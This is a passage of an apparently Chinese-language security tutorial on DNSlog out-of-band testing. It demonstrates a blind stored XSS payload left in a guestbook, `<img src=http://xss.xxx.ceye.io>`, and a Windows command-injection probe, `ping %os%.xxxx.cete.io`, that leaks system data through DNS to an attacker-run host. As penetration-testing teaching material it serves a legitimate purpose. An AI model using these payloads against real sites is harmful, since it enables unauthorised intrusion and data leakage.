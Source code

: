 ```js
<img src=http://xss.xxx.ceye.io>
```

让src请求我们的dnslog平台。这里举个例子：

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6140fc57850965fa671dc0a4f4788fe99d4efd08.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6140fc57850965fa671dc0a4f4788fe99d4efd08.png)

然后回来看DNSlog平台：

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ad497b993df4b02ad44176e17ce9f31873f5c37f.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-ad497b993df4b02ad44176e17ce9f31873f5c37f.png)

已经收到了请求，所以dns已经被解析

这边再举一例：

DNSlog平台先搞一个域名

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-4f8bcbe4b29aaa291823516d460cc7e77feab8ff.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-4f8bcbe4b29aaa291823516d460cc7e77feab8ff.png)

在留言板里如下留言

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-8a7a2f0d8e1eb8f9e5b9d1680a3879021116faef.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-8a7a2f0d8e1eb8f9e5b9d1680a3879021116faef.png)

登录后台查看

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5037274dab1e993e4f96b5b29468784661ae6eb2.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-5037274dab1e993e4f96b5b29468784661ae6eb2.png)

成功，这就是一个存储型xss盲打

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-bcadfbbf458f31aa052421295b31aec7178c3eae.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-bcadfbbf458f31aa052421295b31aec7178c3eae.png)

### 3.3.无回显的命令执行

#### 3.3.1.介绍

我们在读取文件、执行命令注入等操作时无法明显的确认是否利用成功

#### 3.3.2.过程

发现疑似命令执行的洞，但是目标站点什么也不显示，无法确认是不是有洞

如果是win系统，简单的`ping %os%.xxxx.cete.io`即可

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-aff00f0c01e6926db982e62603afe4eb0c93f6d4.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-aff00f0c01e6926db982e62603afe4eb0c93f6d4.png)
